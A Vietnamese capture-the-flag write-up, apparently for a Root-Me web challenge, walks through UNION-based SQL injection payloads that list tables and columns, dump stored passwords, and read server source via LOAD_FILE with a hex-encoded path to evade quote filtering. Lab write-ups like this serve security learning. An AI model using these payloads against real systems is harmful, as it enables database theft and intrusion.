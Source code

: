 - Sửa lại payload để lấy table name:

```
2 union select 1,2,3, (select group_concat(table_name) from information_schema.tables) --
```

- Ta có table name là `member`:

![1](img/60/5.png)

- Sau đó lấy column name:

```
2 union select 1,2,3, (select group_concat(column_name) from information_schema.columns) --
```

![1](img/60/6.png)

- Và có được password:

  ```2 union select 1,2,3, (select group_concat(member_password) from member) --```

![1](img/60/7.png)

- Tuy vậy, decode chuỗi base64 này ta vẫn không có được password vì nó không phải plain-text. 

- Theo như tên của challenge thì ta buộc phải đọc file để biết server đang xử lý chỗ này như thế nào. Thử search read file mysql thì ta có hàm `LOAD_FILE()`

- Vì server filter `'` và `"`, nên ta sẽ truyền bằng mã hex, tên file muốn đọc là `/challenge/web-serveur/ch31/index.php` tương đương với:  ```0x2f6368616c6c656e67652f7765622d736572766575722f636833312f696e6465782e706870```.

- Gửi payload này:

```2 union select 1,2, 3,LOAD_FILE(0x2f6368616c6c656e67652f7765622d736572766575722f636833312f696e6465782e706870)--```

- Ta có kết quả:

![1](img/60/8.png)

- Thấy server nhận password xong hash nó bằng sha1, sau đó so sánh với kết quả phép `xor(key, base64decode(member_password))`. Vậy trước tiên ta xor key và kết quả decode của cái chuỗi `member_password` lúc nãy để lấy sha1(pass):

![1](img/60/9.png)

- Cuối cùng decode là ra:

![1](img/60/10.png)

```